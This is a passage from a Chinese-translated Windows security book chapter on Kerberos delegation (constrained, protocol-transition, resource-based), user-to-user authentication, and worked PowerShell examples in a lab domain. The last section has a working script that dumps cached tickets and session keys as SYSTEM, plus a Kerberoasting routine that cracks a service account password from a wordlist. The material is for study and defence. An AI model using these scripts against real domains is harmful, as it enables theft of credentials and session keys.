注意，列表 14-20 中的 Token 对象具有委托假冒级别。某些内核 API 强制执行这个假冒级别，包括 SeCreateClientSecurity，它捕获调用客户端的令牌，供 SeImpersonateClient 内核 API 后续使用。SeCreateClientSecurity API 接受一个布尔值 ServerIsRemote 参数。如果该参数为 True，且假冒级别不是委托级别，则 API 无法捕获令牌。然而，像 SMB 这样的知名调用者不会将该参数设置为 True。因此，委托假冒级别实际上等同于本地和远程访问的假冒级别，前提是登录会话中有凭证可用。

> 注意
> 
> *在 Windows 10 及更高版本中，你可以启用一个名为凭据保护的功能，该功能利用虚拟化技术保护用户凭据，包括由 LSA 存储的 Kerberos TGT 会话密钥，防止特权用户通过读取 LSASS 进程的内存来获取凭据信息。由于无约束委派会引入一个机制来泄露用户的 TGT 会话密钥，因此如果启用了凭据保护，则不再能够使用无约束委派。*

#### 受限委派

微软在 Windows 2003 中引入了受限委派，也叫做*用户服务（S4U）*，其目的是修复无约束委派中的安全漏洞：即，一旦用户将凭据委派给某个服务，该服务可以代表用户向同一域中的其他任何服务发出请求，即使这些服务与原服务的目的完全无关。

这使得任何使用无约束委派的服务都成为了攻击的良好目标。如果你攻破了该服务，并能说服特权用户将凭据委派给它，那么你很可能会危及整个网络。从技术上讲，用户必须选择是否委派他们的凭据，但常见的客户端应用程序，如 Internet Explorer，默认会这样做，并且在设置客户端身份验证上下文时总是传递委派请求属性。

微软通过允许管理员指定一个服务可以用于委派的明确 SPN 列表来解决这个安全漏洞。例如，管理员可以限制之前讨论的 HTTP 服务仅能委派给数据库服务，而不能委派给其他服务。

受限委派可以在三种模式下工作：

+   仅 Kerberos 委派

+   协议转换委派

+   基于资源的委派

我们将在接下来的章节中依次介绍每种模式。

##### 仅 Kerberos 委派

在官方文档中也叫做*用户服务代理（S4U2proxy）*，仅 Kerberos 委派模式与无约束委派的工作原理非常相似。它要求用户通过 Kerberos 对中间服务进行身份验证，正如图 14-9 所示。



图 14-9：受限 Kerberos 仅委派概述

尽管这看起来与图 14-8 非常相似，但仍有一些微妙的差异。首先，原始用户请求一个普通的 HTTP 服务票证❶，而不是额外的 TGT。用户可以将这个服务票证封装到一个 AP-REQ 消息中，并将其发送给 HTTP 服务❷。然后，HTTP 服务希望将用户的身份验证委派给数据库服务，因此它请求一个服务票证，包含它自己的 TGT。它还会将用户的服务票证附加到 TGS-REQ 消息中❸。

TGS 检查请求。如果用户的服务票证已设置 Forwardable 标志，且数据库服务在发出票证请求的账户允许的服务列表中，TGS 将使用用户的 HTTP 服务票证生成一个数据库服务的服务票证 ❹。该服务可以将该票证和相关信息打包成 AP-REQ 消息，按常规方式发送给数据库服务 ❺。

虽然看起来用户无法控制凭证的委托，但他们可以通过选择不请求 Forwardable 服务票证来阻止委托。稍后我们会讨论如何取消设置 Forwardable 标志。

存储在 Active Directory 中用户或计算机账户条目中的 SPN 列表，包含该账户可以委托的服务，存储在 msDS-AllowedToDelegateTo 属性中。你可以通过在 PowerShell 中使用 Set-ADUser 或 Set-ADComputer 设置此属性，如 Listing 14-21 所示。

```
PS> **$spns = @{'msDS-AllowedToDelegateTo'=@('CIFS/graphite')}**
PS> **Set-ADUser -Identity alice -Add $spns** 
```

Listing 14-21：为 alice 账户添加新的 msDS-AllowedToDelegateTo 条目

要查询 SPN 列表，可以使用 Get-ADUser 或 Get-ADComputer，如 Listing 14-22 所示。

```
PS> **Get-ADUser -Identity alice -Properties 'msDS-AllowedToDelegateTo' |**
**Select-Object -Property 'msDS-AllowedToDelegateTo'**
msDS-AllowedToDelegateTo
------------------------
{CIFS/graphite} 
```

Listing 14-22：查询 msDS-AllowedToDelegateTo 属性

在这个例子中，我们确认可以委托给 CIFS/graphite 服务。

##### 协议转换委托

要求对域进行端到端的 Kerberos 认证并非总是可行的。例如，如果访问 HTTP 服务的用户在公共网络上，且无法直接连接到 KDC 获取服务票证，该怎么办？这时，第二种受限委托类型——协议转换委托（在文档中称为 *Service for User to Self (S4U2self)*）可能会派上用场。它执行 *身份验证协议转换*，意味着前端 HTTP 服务可以使用其自身的认证机制进行身份验证，然后利用该信息构建一个带有用户域凭证的数据库服务票证，而无需用户了解 Kerberos。

Figure 14-10 显示了使用认证协议转换进行受限委托的步骤。



Figure 14-10：带有认证协议转换的受限委托概览

用户首先向 HTTP 服务发起请求并提供认证凭证 ❶。这些凭证不必与我们要使用的 Kerberos 凭证相关，所使用的认证协议可以是任何协议，例如基本的 HTTP 认证。HTTP 服务将认证用户映射到域账户，然后使用该域账户的信息向 TGS 请求自己的服务票证 ❷。

TGS 收集目标用户的所有详细信息（例如其组成员资格），将其放入 PAC 中，并将服务票证返回给服务。由于票证是针对服务本身的，LSA 可以解密票证，提取 PAC，并生成 Token 对象。

这个过程看起来可能很危险。毕竟，它让你可以凭空请求服务票证，而不需要对用户进行任何认证。信不信由你，这就是 S4U2self 的工作原理；然而，请记住，生成的令牌仅对本地系统有用。LSA 已经能够合成一个包含任何它喜欢的组的令牌并在本地使用，因此这并不会改变系统的安全属性。

然而，与合成的本地令牌不同，LSA 拥有一份 S4U2self 服务票证的副本。如果该服务的账户配置为委托，它可以使用 S4U2proxy 与 S4U2self 服务票证一起请求允许的服务的服务票证 ❸。然后，它可以将这个新的服务票证包装在 AP-REQ 中，并用它来对数据库服务进行身份验证 ❹。

你可以通过在 msDS-AllowedToDelegateTo 中设置允许的 SPN 列表，并将用户账户控制标志 TrustedToAuthForDelegation 设置为 True，来配置 S4U2self 以允许过渡到 S4U2proxy。你已经在 清单 14-21 中看到如何修改允许的 SPN。你可以使用以下命令设置 TrustedToAuthForDelegation 标志：

```
PS> **Set-ADAccountControl -Identity alice -TrustedToAuthForDelegation $true** 
```

要查询标志的状态，可以使用 Get-ADUser 或 Get-ADComputer，如 清单 14-23 所示。

```
PS> **Get-ADUser -Identity alice -Properties TrustedToAuthForDelegation |**
**Select-Object -Property TrustedToAuthForDelegation**
TrustedToAuthForDelegation
--------------------------
                      True 
```

清单 14-23：查询 TrustedToAuthForDelegation 标志

你会注意到，我们并没有检查是否可以请求初始的 S4U2self 票证。正如前面提到的，这仅仅是本地系统安全性的问题。如果没有配置 S4U2proxy，计算机无法在网络请求中使用凭证。实际上，Windows 上的任何用户都可以通过 LsaLogonUser 或 Get-NtToken 命令请求 S4U 令牌，即使没有连接到企业网络。

列表 14-24 显示我们当前是以*alice*用户身份运行。让我们尝试请求另一个用户的令牌。

```
PS> **Show-NtTokenEffective**
MINERAL\alice

❶ PS> **$token = Get-NtToken -S4U -User bob -Domain MINERAL**
PS> **Format-NtToken $token**
❷ MINERAL\bob

PS> **Format-NtToken $token -Information**
TOKEN INFORMATION
-----------------
Type       : Impersonation
❸ Imp Level  : Identification
`--snip--` 
```

列表 14-24：以普通用户身份请求 S4U2self 令牌

在这里，我们使用带有S4U参数的<code>Get-NtToken</code>来请求*bob*用户的令牌❶。请注意，我们不需要指定密码。我们可以通过格式化令牌来确认它确实是为*bob*用户请求的❷。

如果 LSA 没有将令牌限制为身份验证级别，这个设计将会带来一个巨大的本地安全漏洞，因为这会允许普通用户使用该令牌访问受保护的资源❸。获得模拟级别令牌的唯一方法是启用SeTcbPrivilege，而该权限默认只有本地*SYSTEM*账户具有。因此，通常会在*SYSTEM*账户使用的计算机账户上配置TrustedToAuthForDelegation，这样它就可以在模拟级别上模拟 S4U2self 令牌，然后让 LSA 查询 S4U2proxy 票据。

##### 基于资源的委派

最后一种受限委派类型是基于资源的委派，它在 Windows Server 2012 中引入。它并没有改变之前概述的底层委派过程；而是改变了发放可转发票据的条件。它不仅根据请求委派票据的账户来做出决定，还考虑了请求的目标 SPN。

用户或计算机对象上的msDS-AllowedToActOnBehalfOfOtherIdentity属性控制基于资源的委派。此属性是一个安全描述符，包含一个 ACE，表示每个用户可以委派的账户。您可以通过指定用户或计算机的区分名称，将其设置为PrincipalsAllowedToDelegateToAccount参数，使用Set-ADUser或Set-ADComputer PowerShell 命令。在列表 14-25 中，我们将*GRAPHITE*计算机账户添加到*alice*用户可以委派的账户列表中。

```
PS> **Set-ADUser -Identity alice**
**-PrincipalsAllowedToDelegateToAccount (Get-ADComputer GRAPHITE)**
PS> **Get-ADUser -Identity alice -Properties** 
**PrincipalsAllowedToDelegateToAccount |**
**Select-Object PrincipalsAllowedToDelegateToAccount**
PrincipalsAllowedToDelegateToAccount
------------------------------------
❶ {CN=GRAPHITE,CN=Computers,DC=mineral,DC=com}
PS> **$name = "msDS-AllowedToActOnBehalfOfOtherIdentity"**
PS> **(Get-ADUser -Identity alice -Properties $name)[$name] |**
**ConvertTo-NtSecurityDescriptor | Format-NtSecurityDescriptor -Summary**
<Owner> : BUILTIN\Administrators
<DACL>
❷ MINERAL\GRAPHITE$: (Allowed)(None)(Full Access) 
```

列表 14-25：在用户账户上设置基于资源的委派

这允许*GRAPHITE*计算机账户请求服务票据，以便访问其中一个*alice*用户的 SPN。Get-ADUser命令暴露了目标账户的完整区分名称❶，但如果我们从属性中提取安全描述符并格式化它，我们可以在格式化的 DACL 中看到*MINERAL\GRAPHITE$* SID 出现在一个 ACE 中❷。

在从 S4U2self 转换为 S4U2proxy 时，客户端主体不需要设置 TrustedToAuthForDelegation 标志。作为控制机制，域控制器提供两个组 SID，指示令牌的来源。表 14-2 显示了这两个 SID。

表 14-2： 声明身份的 SIDs

| 名称 | SID | 描述 |
| --- | --- | --- |
| 认证授权声明身份 | S-1-18-1 | 通过认证生成的令牌 |
| 服务声明身份 | S-1-18-2 | 通过 S4U 机制生成的令牌 |

第一个 SID 表示 `Token` 对象是通过向 KDC 提供认证凭证生成的。第二个 SID 分配给 S4U2self 或 S4U2proxy 令牌。安全描述符可以使用这些 SIDs 来限制对服务的访问，该服务配置为资源委派，可以是仅 Kerberos 委派（获得第一个 SID），也可以是认证协议转换委派（获得第二个 SID）。

委派是一项危险的功能，如果配置错误，很容易发生配置错误。尤其是在通过受限委派从 S4U2self 转换为 S4U2proxy 时，服务可能会冒充域中的任何用户，包括特权用户。为了减少这种情况发生的危险，系统可以在账户上设置 AccountNotDelegated UAC 标志为 True，以阻止其在委派场景中被使用。在 GUI 中，此标志称为“账户敏感且无法委派”。你可以通过使用域管理员账户在域控制器上运行以下 PowerShell 命令来设置它：

```
PS> **Set-ADUser -Identity alice -AccountNotDelegated $true** 
```

在清单 14-26 中，我们查看了此标志如何变化以防止委派。

```
❶ PS> **Get-ADUser -Identity alice -Properties AccountNotDelegated |**
**Select-Object AccountNotDelegated**
AccountNotDelegated
-------------------
               True
PS> **$client = New-LsaClientContext -CredHandle $credout -Target** 
**"HTTP/graphite"**
PS> **Unprotect-LsaAuthToken -Token $client.Token -Key $key |** 
**Format-LsaAuthToken**
<KerberosV5 KRB_AP_REQ>
Options         : MutualAuthRequired
<Ticket>
Ticket Version  : 5
Server Name     : SRV_INST - HTTP/graphite
Realm           : MINERAL.LOCAL
❷ Flags           : Renewable, PreAuthent, EncPARep
`--snip--` 
```

清单 14-26：检查设置了 AccountNotDelegated 的账户的票证标志

首先，我们确认 *alice* 用户的 AccountNotDelegated 标志已设置为 True ❶。然后我们请求该用户的服务票证。通过解密票证，我们可以看到 Forwardable 标志不再存在 ❷。如前所述，如果 Forwardable 标志没有设置，TGS 将拒绝基于现有服务票证签发新的服务票证。这实际上自动阻止了委派。请注意，如果 Forwardable 标志已设置，并且您刚刚更改了 AccountNotDelegated 标志的值，建议您注销并重新登录，以确保用户没有缓存的票证。

到目前为止，我们一直需要为用户或计算机配置一个 SPN，以便 KDC 选择正确的共享加密密钥。也有一种可供选择的认证模式，允许用户在没有 SPN 的情况下相互认证。让我们通过讨论如何在不为用户配置 SPN 的情况下使用 Kerberos 来结束本章。

### 用户对用户 Kerberos 认证

NTLM 协议可以在没有特权的用户之间执行网络认证，但由于 Kerberos 账户需要映射的 SPN 才能授予票证，它通常不能执行此操作。为了在无特权用户之间启用认证，Windows Kerberos 包括一个名为 *用户对用户 (U2U) 认证* 的功能。图 14-11 显示了 U2U 认证的基本操作。



图 14-11：使用 Kerberos 进行用户对用户认证

在此图中，*alice* 想要对运行在 *bob* 账户下的服务进行认证。然而，*bob* 没有注册 SPN，因此当 *alice* 发起服务票证请求 ❶ 时，它将失败，因为 KDC 不知道目标 SPN。但由于请求的服务名称采用 UPN 格式（即 bob@mineral.local），LSA 假设用户希望进行 U2U 认证，并生成一个 TGT-REQ 消息。它将 TGT-REQ 消息发送到运行在 *bob* 账户下的服务 ❷。

服务接受 TGT-REQ 令牌，LSA 将 *bob* 的缓存 TGT 封装成 TGT-REP 消息并发送回客户端 ❸。（请注意，LSA 仅使用调用者的缓存 TGT；它似乎并不关注 TGT-REQ 中的 UPN。因此，返回的 TGT 可能不是为请求的用户生成的，这在下一步中将变得非常重要。）

在接收到 TGT-REP 后，LSA 可以将针对*alice*的 TGT 和针对*bob*的 TGT 打包成 TGS-REQ，然后请求bob@mineral.local的服务票证❹。TGS 然后可以解密 TGT，验证额外的 TGT 是否针对请求的用户帐户，并生成一个用 TGT 会话密钥加密的服务票证，供*bob*使用。如果额外的 TGT 不是针对*bob*的，可能是因为该服务不是在*bob*的帐户下运行，则请求将失败。

假设请求成功，客户端的 LSASS 可以将服务票证打包成 AP-REQ 消息，发送给服务并完成身份验证❺。让我们运行一个测试，看看 U2U 身份验证的实际操作（清单 14-27）。

```
PS> **$credout = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Outbound**
❶ PS> **$client = New-LsaClientContext -CredHandle $credout -Target** 
**bob@mineral.local**
PS> **Format-LsaAuthToken -Token $client.Token**
❷ <KerberosV5 KRB_TGT_REQ>
Principal: bob@mineral.local 
```

清单 14-27：初始化 U2U 身份验证客户端

首先，我们初始化 U2U 客户端身份验证上下文；请注意，这应以*alice*用户身份运行。你现在应该已经熟悉大部分代码；唯一重要的区别是指定bob@mineral.local作为目标 SPN❶。当我们格式化身份验证令牌时，我们看到一个包含所需主体的 TGT-REQ 消息❷。我们现在需要服务器身份验证上下文以继续身份验证过程（清单 14-28）。

```
PS> **$credin = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Inbound**
**-ReadCredential**
UserName: bob
Domain: MINERAL
Password: **********

PS> **$server = New-LsaServerContext -CredHandle $credin**
PS> **Update-LsaServerContext -Server $server -Client $client**
PS> **Format-LsaAuthToken -Token $server.Token**
❶ <KerberosV5 KRB_TGT_REP>
Ticket Version  : 5
Server Name     : SRV_INST - krbtgt/MINERAL.LOCAL
Realm           : MINERAL.LOCAL
Encryption Type : AES256_CTS_HMAC_SHA1_96
Key Version     : 2
Cipher Text     :
00000000: 98 84 C6 F4 B3 92 66 A7 50 6E 9B C2 AF 48 70 09
00000010: 76 E9 75 E8 D6 DE FF A5 A2 E9 6F 10 A9 1E 43 FE
`--snip--` 
```

清单 14-28：创建服务器身份验证上下文并获取 TGT-REP

我们首先创建凭证句柄并从 shell 中读取*bob*的凭证。必须指定*bob*的凭证，因为否则服务器身份验证将使用*alice*的 TGT，这在为bob@mineral.local SPN 创建服务票证时会失败。通过凭证句柄，我们可以创建服务器身份验证上下文。

通过格式化返回的身份验证令牌，我们可以看到它是一个 TGT-REP，其中包含 TGT 票证❶。我们不知道*krbtgt*用户的密码，因此无法解密它，这意味着无法确定该票证是否是针对*bob*的。在清单 14-29 中，我们使用 TGT-REP 消息更新客户端身份验证上下文，并打印新的身份验证令牌。

```
PS> **Update-LsaClientContext -Client $client -Server $server**
PS> **Format-LsaAuthToken -Token $client.Token**
❶ <KerberosV5 KRB_AP_REQ>
❷ Options         : UseSessionKey
<Ticket>
Ticket Version  : 5
❸ Server Name     : PRINCIPAL - bob
Realm           : MINERAL.LOCAL
Encryption Type : AES256_CTS_HMAC_SHA1_96
Cipher Text     :
00000000: 26 3B A8 9D DA 13 74 9F DC 47 16 83 0C AB 4F FF
00000010: 75 A3 45 E4 16 6F D1 E9 DA FA 71 E2 26 DE 42 8C
`--snip--` 
```

清单 14-29：继续 U2U 身份验证

我们可以看到，现在我们有了 AP-REQ 消息，可以将其发送给服务器❶。它包含一个用*bob*的会话密钥加密的票证❷，并且目标主体是bob@mineral.local❸。在清单 14-30 中，我们回到了服务器端。

```
❶ PS> **Update-LsaServerContext -Server $server -Client $client**
PS> **Use-NtObject($token = Get-LsaAccessToken $server) {**
    **Get-NtLogonSession $token | Format-Table**
**}**
LogonId           UserName       LogonType SessionId
-------           --------       --------- ---------
❷ 00000000-005CD2EF MINERAL\alice  Network   0 
```

清单 14-30：完成 U2U 身份验证

我们完成身份验证❶，并查询Token对象，该对象表示*alice*的登录成功❷。

### 工作示例

让我们通过一些示例来演示如何使用本章中的各种命令来帮助进行安全研究或系统分析。

#### 查询 Kerberos 票据缓存

LSA 会为每个登录会话维护一个使用 Kerberos 请求的票据缓存。你可以使用 Get-KerberosTicket 命令查询当前用户的票据缓存，如 Listing 14-31 所示。

```
❶ PS> **Get-KerberosTicket | Select-Object ServiceName, EndTime**
ServiceName                                           EndTime
-----------                                           -------
❷ SRV_INST - krbtgt/MINERAL.LOCAL                       3/19 6:12:15 AM
SRV_INST - LDAP/PRIMARYDC.mineral.local/mineral.local 3/19 6:12:15 AM

❸ PS> **Get-KerberosTicket | Select-Object -First 1 | Format-KerberosTicket**
Ticket Version  : 5
Server Name     : SRV_INST - krbtgt/MINERAL.LOCAL
Realm           : MINERAL.LOCAL
Encryption Type : AES256_CTS_HMAC_SHA1_96
Key Version     : 2
Cipher Text     :
00000000: 10 F5 39 C5 E1 6D BB 59 E0 CF 04 61 F6 2D CF E2
00000010: 94 B3 88 46 DB 69 88 FF F4 F2 8B 52 AD 48 20 9C
00000020: 2D AE A4 02 4B 9E 75 F3 D0 05 23 63 70 31 E4 88
00000030: 4F 3E DD E7 23 DE 4B 7A 0D A9 47 62 90 6E 24 65
`--snip--` 
```

Listing 14-31: 查询 Kerberos 票据缓存

首先，我们查询票据❶，选择字段 ServiceName（票据的 SPN）和 EndTime（票据的过期时间，到时必须进行续期）。缓存中的第一个票据是用户的 TGT，用于请求服务票据❷。在这个例子中，我们还有一个针对 LDAP 目录服务器的服务票据。

我们可以使用 Format-KerberosTicket 命令❸查看缓存的 Kerberos 票据，但票据仍然是加密的，由于我们可能不知道目标服务的共享密钥，因此无法解密它。理论上，我们可以将票据发送到目标服务进行直接认证。但是，我们没有提取的会话密钥，也无法在有效的 AP-REQ 中加密认证数据，因此我们需要调用 SSPI 基于缓存的票据生成 AP-REQ。

如果你启用了 SeTcbPrivilege，每个票据缓存条目应包含会话密钥。Listing 14-32 展示了如何查询所有本地登录会话的所有票据并提取缓存的会话密钥。

```
PS> **$sess = Get-NtLogonSession**
PS> **$tickets = Invoke-NtToken -System {Get-KerberosTicket -LogonSession $sess}**
PS> **$tickets | Select-Object ServiceName, {Format-HexDump $_.SessionKey.Key}**
ServiceName                      Format-HexDump $_.SessionKey.Key
-----------                      --------------------------------
SRV_INST - krbtgt/MINERAL.LOCAL  EE 3D D2 F7 6F 5F 7E 06 B6 E2 4E 6C C6 36 59 64
`--snip--` 
```

Listing 14-32: 提取所有票据和会话密钥

我们首先获取可以传递给 Get-KerberosTicket 的登录会话列表。我们需要启用 SeTcbPrivilege 才能查询任何登录会话的票据，除了调用者的票据，因此在查询缓存时我们模拟 *SYSTEM* 用户。

模拟 *SYSTEM* 用户还可以让我们获得会话密钥。我们可以将密钥格式化为十六进制，并附带缓存票据的 SPN。有了票据和会话密钥，我们可以实现我们自己的服务认证请求。

#### 简单 Kerberoasting

与票证缓存交互的一个潜在原因是获取 Kerberoasting 的票证，这是一种在第 465 页的“Silver Tickets 和 Kerberoasting”框中描述的攻击。然而，对于这种攻击，你不需要查询缓存，因为你可以使用 SSPI API 获取所有所需信息。让我们通过一个简单的示例来了解 Kerberoasting 过程是如何工作的。首先，在 列表 14-33 中，我们查询所有具有配置 SPN 的用户账户。

```
PS> **Get-ADUser -Filter {**
    **ObjectClass -eq 'user'**
**} -Properties ServicePrincipalName |**
**Where-Object ServicePrincipalName -ne $null |**
**Select SamAccountName, ServicePrincipalName**
SamAccountName ServicePrincipalName
-------------- --------------------
krbtgt         {kadmin/changepw}
alice          {HTTP/graphite}
sqlserver      {MSSQL/topaz.mineral.local} 
```

列表 14-33：检查具有配置的 SPN 的用户

我们看到 *krbtgt* 用户，并且 *alice* 仍然拥有我们在本章之前配置的 HTTP/graphite SPN。我们还看到一个 SQL 服务器账户，该账户拥有 SPN MSSQL/topaz.mineral.local。

我们不想选择 *krbtgt* 作为目标，因为这个账户的密码会很复杂，难以通过暴力破解（任何配置了 SPN 的计算机账户也有一个自动配置的复杂密码）。我们将尝试暴力破解 *sqlserver* 用户的密码。首先，我们需要请求其 SPN 并接收票证（列表 14-34）。

```
PS> **$creds = New-LsaCredentialHandle -Package "Kerberos" -UseFlag Outbound**
PS> **$client = New-LsaClientContext -CredHandle $creds**
**-Target "MSSQL/topaz.mineral.local"**
PS> **Format-LsaAuthToken $client**
<KerberosV5 KRB_AP_REQ>
Options         : None
<Ticket>
Ticket Version  : 5
Server Name     : SRV_INST - MSSQL/topaz.mineral.local
Realm           : MINERAL.LOCAL
Encryption Type : ARCFOUR_HMAC_MD5
Key Version     : 2
Cipher Text     :
00000000: F3 23 A8 DB C3 64 BE 58 48 7A 4D E1 20 50 E7 B9
00000010: CB CA 17 59 A3 5C 0E 1D 6D 56 F9 B5 5C F5 EE 11
`--snip--` 
```

列表 14-34：获取 sqlserver 用户的服务票证

现在我们已经有了票证，可以根据密码列表生成密钥。然后我们可以尝试使用每个密钥解密票证，直到找到有效的密钥，如 列表 14-35 中所示。

```
PS> **$pwds = "ABC!!!!", "SQLRUS", "DBPassw0rd"**
PS> **foreach($pwd in $pwds) {**
    **$key = Get-KerberosKey -Password $pwd -KeyType ARCFOUR_HMAC_MD5**
**-NameType SRV_INST -Principal "MSSQL/topaz.mineral.local@mineral.local"**
    **$dec_token = Unprotect-LsaAuthToken -Key $key -Token $client.Token**
❶ **if ($dec_token.Ticket.Decrypted) {**
        **Write-Host "Decrypted ticket with password: $pwd"**
        **break**
 **}**
**}**
Decrypted ticket with password: DBPassw0rd 
```

列表 14-35：使用密码集解密票证

我们可以通过查询票证的 Decrypted 属性来检查票证是否已被解密 ❶。如果它被解密了，我们就会将密码打印到控制台。在这个例子中，我们发现 *sqlserver* 用户的密码是 DBPassw0rd——这可能不是最安全的选择！注意，这个示例脚本并不是特别高效或快速。由于票证使用 RC4 加密算法进行加密，因此破解会相对简单；如果使用 AES，则可以应用相同的技术，但暴力破解的尝试将需要更长时间，因为 AES 密钥推导更复杂。

为了获得更好的性能，建议使用另一个工具，如 Rubeus (*[`<wbr>github<wbr>.com<wbr>/GhostPack<wbr>/Rubeus`](https://github.com/GhostPack/Rubeus)*), 该工具最初由 SpecterOps 的 Will Schroeder 开发。这个工具可以获取票证，并用它生成哈希值，然后你可以将其输入到快速密码破解工具，如 John the Ripper (*[`<wbr>www<wbr>.openwall<wbr>.com<wbr>/john<wbr>/`](https://www.openwall.com/john/)*).

### 总结

本章深入讨论了 Kerberos，这是自 Windows 2000 起用于 Windows 域身份验证的协议。我们检查了 Windows 域控制器上实现的密钥分发中心，它保存了与网络上所有用户和计算机相关的密钥列表，并了解了 Kerberos 如何使用这些密钥（通常由账户密码派生）来验证票证，然后可以使用这些票证来验证网络上的服务。

为了支持复杂的身份验证场景，Kerberos 允许凭据委派。我们详细讨论了这个话题，包括受限委派和非受限委派，以及相关的“用户服务”机制。我们在本章的最后介绍了用户对用户的身份验证，它允许两个用户彼此验证，而不需要在域中注册 SPN。

下一章（也是最后一章）将描述一些额外的网络身份验证协议，并进一步深入探讨如何使用 SSPI API。
